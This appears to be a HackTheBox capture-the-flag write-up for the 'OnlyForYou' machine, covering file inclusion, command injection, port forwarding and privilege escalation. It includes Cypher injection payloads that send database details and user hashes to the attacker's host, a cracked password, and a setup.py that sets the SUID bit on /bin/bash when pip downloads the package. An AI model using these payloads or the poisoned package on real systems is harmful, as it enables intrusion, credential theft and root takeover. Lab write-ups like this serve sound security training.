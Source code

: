 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*

![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin

![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719094-e295b16d-f40e-40da-b8a2-5d9665fb25a9.png)
![image](https://user-images.githubusercontent.com/127159644/236719119-0536de45-fbd8-409d-9061-66992e1759ba.png)

Lets dump the users 🙂

```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.175/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719601-0f0aa538-ec26-414f-9ac9-f1a3478099ed.png)
![image](https://user-images.githubusercontent.com/127159644/236719571-89a3a6db-91a6-4e92-a0ad-fadbe415c235.png)

Cool we have the hash of two users *admin & john* since we already know the admin user's password which is *admin* lets crack that of John's
![image](https://user-images.githubusercontent.com/127159644/236719927-5c9ef76f-3feb-4610-a5ea-26b50b6ccfb0.png)

The password for user John is *ThisIs4You*

Lets try this over ssh
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b2ea6c18-eaef-4479-8b7d-495b7cafff0a)

Cool it works finally 😭

Lets escalate privilege to root 🙂

Checking sudo permission shows that the user can run `/usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz` as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fea37e1c-b355-42be-93dd-4b41103d4aa1)

Remember that the service running on port 3000 is Gogs

After searching for privilege escalation with *pip download* i found this [article](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

I downloaded the repo and modified the setup.py file to make */bin/bash* suid
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee0c4319-769b-467f-801f-8aa665b22f40)

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("chmod +s /bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Now I will create the .tar.gz file that will be the one to be uploaded to the repository on Gogs.
![Uploading image.png…]()

```bash
pip install build --break-system-packages
python3 -m build
```

